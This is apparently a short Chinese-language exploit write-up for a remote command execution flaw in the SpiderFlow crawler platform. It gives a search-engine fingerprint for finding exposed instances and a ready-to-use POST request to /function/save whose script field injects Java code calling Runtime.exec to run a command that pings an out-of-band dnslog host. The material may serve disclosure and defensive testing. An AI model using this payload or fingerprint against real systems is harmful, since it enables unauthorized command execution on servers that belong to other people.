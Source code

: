 # SpiderFlow save 远程命令执行漏洞

## 漏洞描述

SpiderFlow 平台以流程图的⽅式定义爬⾍,是⼀个⾼度灵活可配置的爬⾍平台 

官⽹：https://www.spiderflow.org/

## 漏洞影响

<a-checkbox checked>SpiderFlow</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="SpiderFlow"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1640438666683-12d29712-e90c-483b-b311-9fd25f852ca4.png)

发送请求包执行命令

```go
POST /function/save

id=&name=cmd&parameter=yw&script=}Java.type('java.lang.Runtime').getRuntime().exec('ping chwd71.dnslog.cn');{
```

![img](../../../.vuepress/public/img/1640438711420-73f701ff-c390-4201-96df-1e62cdf44208.png)